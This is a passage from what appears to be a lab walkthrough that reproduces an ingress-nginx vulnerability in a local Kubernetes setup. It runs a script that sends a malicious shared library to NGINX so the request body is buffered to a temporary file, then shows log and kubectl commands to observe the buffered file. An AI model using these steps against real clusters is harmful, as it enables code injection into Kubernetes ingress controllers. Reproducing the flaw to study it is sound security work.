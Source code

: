 1. **Run the `step1.py` script:**
    ```bash
    python3 step1.py
    # Example output:
    #
    # Creating socket connection to NGINX...
    # Sending malicious library...
    # Sent shared-library/hello_engine.so (16392 bytes)
    # Sending padding data...
    # Sent 26632/1000000 bytes (2.7%)...
    # Sent 36872/1000000 bytes (3.7%)...
    # Sent 47112/1000000 bytes (4.7%)...
    # Sent 57352/1000000 bytes (5.7%)...
    # Sent 67592/1000000 bytes (6.8%)...
    ```

1. **Check the logs on the ingress-nginx pod** to confirm the controller is buffering the request body to a temporary file:
    ```bash
    kubectl logs -f svc/ingress-nginx-controller -n ingress-nginx
    ```
    Alternatively, if you use `k9s`, go to **Pods** → **ingress-nginx-controller** → press `<s>` to view logs.

    **Example log line on the ingress-nginx pod**:
    ```log
    2025/03/30 05:48:52 [warn] 45#45: *109947 a client request body is buffered to a temporary file /tmp/nginx/client-body/0000000001, client: 127.0.0.1, server: _, request: "POST /some-arbitrary-path HTTP/1.1", host: "localhost:8080"
    ```

### Step 1.5

Let’s understand what happened and see how things look from the perspective of ingress-nginx and Kubernetes.

1. The **ingress-nginx** controller buffers your file in `/tmp/nginx/client-body/`, for example `/tmp/nginx/client-body/0000000001`, but if you check the pod’s file system, the file does not appear:
    ```bash
    kubectl exec -it svc/ingress-nginx-controller -n ingress-nginx -- sh
    # inside the container
    ls -l /tmp/nginx/client-body/
    ```
    According to the Wiz blog post, NGINX [immediately removes the file](https://github.com/nginx/nginx/blob/e3a9b6ad08a86e799a3d77da3f2fc507d3c9699e/src/os/unix/ngx_files.c#L287).
